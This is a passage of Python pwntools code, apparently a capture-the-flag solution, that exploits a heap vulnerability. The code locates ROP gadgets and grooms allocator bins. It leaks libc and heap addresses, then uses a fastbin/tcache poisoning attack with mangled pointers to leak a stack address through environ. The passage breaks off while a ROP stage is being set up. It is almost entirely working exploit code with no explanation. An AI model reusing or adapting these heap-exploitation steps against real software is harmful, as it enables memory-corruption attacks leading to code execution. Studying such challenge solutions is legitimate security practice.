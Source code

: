```python
    POP_RSI = rop.find_gadget(['pop rsi', 'ret'])[0]
    POP_RAX = rop.find_gadget(['pop rax', 'ret'])[0]
    POP_RDX_RBX = rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
    SYSCALL_RET = rop.find_gadget(['syscall', 'ret'])[0]

    io.recvuntil(b'[+]')
    
    io.sendlineafter(b'[!]', b'2')
    num = gen_rand()
    io.sendlineafter(b'[$]', str(num).encode())

    # clean bins
    for _ in range(16):
        alloc(0, 0x20-0x10, b'a\n')
    for _ in range(16):
        alloc(0, 0x70-0x10, b'a\n')
    for _ in range(15):
        alloc(0, 0x80-0x10, b'a\n')
    for _ in range(5):
        alloc(0, 0xd0-0x10, b'a\n')
    for _ in range(2):
        alloc(0, 0xf0-0x10, b'a\n')

    alloc(0, 0x410, b'idk\n')
    alloc(1, 0x10, b'guard\n')
    free(0)
    show(0)
    libc.address = u64(io.recvline().strip().ljust(8, b'\x00')) - 0x219ce0

    POP_RDI = libc.address + POP_RDI
    POP_RSI = libc.address + POP_RSI
    POP_RAX = libc.address + POP_RAX
    POP_RDX_RBX = libc.address + POP_RDX_RBX
    SYSCALL_RET = libc.address + SYSCALL_RET

    alloc(0, 0x410, b'idk\n')
    free(1)
    show(1)
    heap = (u64(io.recvline().strip().ljust(8, b'\x00')) - 1) << 12

    # fastbin attack to control tcache->next
    for i in range(9):
        alloc(i, 0x10, b'a\n')
    for i in range(9):
        free(i)
    free(7)
    for i in range(7):
        alloc(i, 0x10, b'a\n')
    alloc(7, 0x10, p64(mangle(heap+0x1b10, libc.sym['environ'])) + b'\n')
    alloc(8, 0x10, b'a\n')
    alloc(9, 0x10, b'a\n')
    alloc(10, 0x0, b'')

    show(10)
    stack = u64(io.recvline().strip().ljust(8, b'\x00'))
    rip = stack - 0x150

    # fastbin to ROP
    for i in range(9):
        alloc(i, 0x70, b'a\n')
    for i in range(9):
        free(i)
    free(7)
```
